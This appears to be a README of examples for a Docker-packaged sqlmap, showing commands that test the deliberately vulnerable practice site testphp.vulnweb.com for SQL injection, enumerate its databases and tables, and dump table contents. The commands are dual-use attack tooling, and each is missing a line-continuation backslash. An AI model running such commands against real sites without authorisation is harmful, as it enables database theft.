 # Examples

## Target URL

Target [`http://testphp.vulnweb.com/listproducts.php?cat=1`](http://testphp.vulnweb.com/listproducts.php?cat=1 ).

```shell
docker run -it --rm \
  -u $(id -u):$(id -g) \
  -v ${PWD}/sqlmap:/.local/share/sqlmap
  ghcr.io/toshy/docker-sqlmap:latest -u "http://testphp.vulnweb.com/listproducts.php?cat=1 "
```

## Target URL - Find databases

Target [`http://testphp.vulnweb.com/listproducts.php?cat=1`](http://testphp.vulnweb.com/listproducts.php?cat=1 ) with `--dbs` flag.

```shell
docker run -it --rm \
  -u $(id -u):$(id -g) \
  -v ${PWD}/sqlmap:/.local/share/sqlmap
  ghcr.io/toshy/docker-sqlmap:latest -u "http://testphp.vulnweb.com/listproducts.php?cat=1 " --dbs
```

## Target URL - List tables

Target [`http://testphp.vulnweb.com/listproducts.php?cat=1`](http://testphp.vulnweb.com/listproducts.php?cat=1 ) with `-D <dbname>` and `--tables` flag. 

```shell
docker run -it --rm \
  -u $(id -u):$(id -g) \
  -v ${PWD}/sqlmap:/.local/share/sqlmap
  ghcr.io/toshy/docker-sqlmap:latest -u "http://testphp.vulnweb.com/listproducts.php?cat=1 " -D <dbname> --tables
```

## Target URL - List tables

Target [`http://testphp.vulnweb.com/listproducts.php?cat=1`](http://testphp.vulnweb.com/listproducts.php?cat=1 ) with `-D <dbname>` and `--tables` flag and subsequently dump table entries.

```shell
docker run -it --rm \
  -u $(id -u):$(id -g) \
  -v ${PWD}/sqlmap:/.local/share/sqlmap
  ghcr.io/toshy/docker-sqlmap:latest -u "http://testphp.vulnweb.com/listproducts.php?cat=1 " -D <dbname> --tables --dump
```

## Reference

* [GitHub Wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
